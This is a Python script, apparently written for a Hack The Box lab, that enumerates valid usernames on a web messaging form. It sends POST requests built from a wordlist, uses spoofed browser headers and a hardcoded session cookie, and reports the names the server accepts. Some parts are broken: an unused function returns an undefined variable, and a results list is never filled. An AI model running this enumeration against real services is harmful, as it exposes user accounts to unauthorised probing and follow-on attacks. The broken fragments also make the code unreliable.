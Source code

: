 ```python
import sys
import requests
import os.path

# define target url, change as needed
url = "http://94.237.56.188:50709/messages.php"

# define a fake headers to present ourself as Chromium browser, change if needed
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Content-Type": "application/x-www-form-urlencoded",
    "Upgrade-Insecure-Requests": "1",
    "Sec-GPC": "1",
    "Cookie": "htb_sessid=MDk4ZjZiY2Q0NjIxZDM3M2NhZGU0ZTgzMjYyN2I0ZjY%3D"
}

valid = "Message sent to"

def unpack(fline):
    return userid

def do_req(url, user, message, headers):
    data = {"user": user, "message": message, "submit": "submit"}
    res = requests.post(url, headers=headers, data=data)

    return res.text

"""
if defined valid string is found in response body return True
"""
def check(haystack, needle):
    if needle in haystack:
        return True
    else:
        return False

def main():
    # check if this script has been runned with an argument, and the argument exists and is a file
    if (len(sys.argv) > 1) and (os.path.isfile(sys.argv[1])):
        fname = sys.argv[1]
    else:
        print("[!] Please check wordlist.")
        print("[-] Usage: python3 {} /path/to/wordlist".format(sys.argv[0]))
        sys.exit()
        
    successful_names = []

    with open(fname) as fh:
        for fline in fh:
            # skip line if it starts with a comment
            if fline.startswith("#"):
                continue

            username = fline.rstrip()
            res = do_req(url, username, "hi", headers)

            # call function check() to verify if HTTP response text matches our content
            if (check(res, valid)):
                print(f"{username} - message successfully sent")
```